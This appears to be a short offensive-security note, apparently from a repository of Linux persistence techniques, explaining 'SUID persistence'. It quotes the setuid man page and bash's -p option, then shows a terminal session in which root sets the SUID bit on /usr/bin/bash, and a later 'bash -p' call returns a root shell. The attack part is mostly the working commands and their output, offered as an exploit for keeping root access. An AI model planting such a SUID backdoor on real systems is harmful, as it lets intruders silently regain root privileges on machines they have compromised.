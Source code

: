 # SUID persistence

```
setuid - set user identity

#include <unistd.h>
int setuid(uid_t uid);

https://man7.org/linux/man-pages/man2/setuid.2.html
```


`SUID` binaries are well known to be dangerous because they allow you to maintain the same `root` privileges when running a certain command.
This can be used to set a shell with the `SUID` bit is set to true and then exploit that to re-obtain a shell under `root` privileges.
Also, the `-p` option of `bash`, allows us to maintain the same privileges as the owner of the binary invoked.

Bash manual:

```
      -p  Turned on whenever the real and effective user ids do not match.
          Disables processing of the $ENV file and importing of shell
          functions.  Turning this option off causes the effective uid and
          gid to be set to the real uid and gid.
```

Exploit:

```bash
┌──(root㉿DESKTOP)-[/home/virgula/test]
└─# which bash
/usr/bin/bash

┌──(root㉿DESKTOP)-[/home/virgula/test]
└─# chmod +s /usr/bin/bash

┌──(root㉿DESKTOP)-[/home/virgula/test]
└─# exit
exit
➜  test /usr/bin/bash -p
bash-5.2# whoami
root
bash-5.2#
```